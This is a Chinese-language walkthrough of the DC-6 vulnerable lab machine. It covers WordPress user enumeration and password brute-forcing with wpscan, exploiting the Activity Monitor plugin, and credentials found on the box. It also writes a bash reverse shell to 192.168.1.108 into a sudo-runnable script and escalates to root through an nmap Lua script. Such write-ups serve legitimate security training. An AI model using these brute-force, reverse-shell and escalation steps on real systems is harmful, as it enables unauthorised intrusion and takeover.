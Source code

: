 # DC_6

![image-20200615013941834](assets/DC_6.assets/image-20200615013941834.png)

![image-20200615014047556](assets/DC_6.assets/image-20200615014047556.png)

![image-20200615014629529](assets/DC_6.assets/image-20200615014629529.png)

![image-20200615041725018](assets/DC_6.assets/image-20200615041725018.png)



修改host

![image-20200615021530085](assets/DC_6.assets/image-20200615021530085.png)

wpscan

```bash
wpscan --url http://wordy -e ap,vt,cb,u
```

![image-20200615021714721](assets/DC_6.assets/image-20200615021714721.png)

![image-20200615021801259](assets/DC_6.assets/image-20200615021801259.png)

```bash
wordpress v5.1.1
theme twentyseventeen v2.1
user :	admin	sarah	graham	mark	jens
```

制作字典，暴力登录

```bash
wpscan --url http://wordy -U users.txt -P /usr/share/wordlists/rockyou.txt

mark:helpdesk01
```

登录之前扫到的登录点http://wordy/wp-admin/



![image-20200615041614632](assets/DC_6.assets/image-20200615041614632.png)

看了一圈没有常用的可利用的项。

查看一下插件

![image-20200615075101710](assets/DC_6.assets/image-20200615075101710.png)

Activity Monitor

![image-20200615075415246](assets/DC_6.assets/image-20200615075415246.png)

将漏洞文件的html文件部分复制出来并修正

![image-20200615082126056](assets/DC_6.assets/image-20200615082126056.png)

在工作目录下拉起http服务

![image-20200615082216693](assets/DC_6.assets/image-20200615082216693.png)

![image-20200615082305516](assets/DC_6.assets/image-20200615082305516.png)

浏览器访问kalihttp服务下修改过的evil页面，点击`submit request`提交请求，此时监听得到shell

![image-20200615082428509](assets/DC_6.assets/image-20200615082428509.png)

枚举之后发现新用户凭证

![image-20200615082811854](assets/DC_6.assets/image-20200615082811854.png)

```bash
graham:GSo7isUM1D4
```

尝试ssh，直接发现新线索

![image-20200615083058866](assets/DC_6.assets/image-20200615083058866.png)

![image-20200615083252359](assets/DC_6.assets/image-20200615083252359.png)

这个脚本还可以直接修改。写个shell进去.注意使用单双引号的区别，单引号帮助跳过识别叹号

```bash
echo '#!/bin/bash' > /home/jens/backups.sh
echo "bash -i >& /dev/tcp/192.168.1.108/1337 0>&1" >> /home/jens/backups.sh
```

![image-20200615085012819](assets/DC_6.assets/image-20200615085012819.png)

```bash
sudo -u jens /home/jens/backups.sh
```

![image-20200615085244424](assets/DC_6.assets/image-20200615085244424.png)

执行nmap，nmap需要利用脚本，

```bash
cd ~
echo 'os.execute("/bin/bash")' > evil
sudo  nmap  --script=evil
```

![image-20200615085620557](assets/DC_6.assets/image-20200615085620557.png)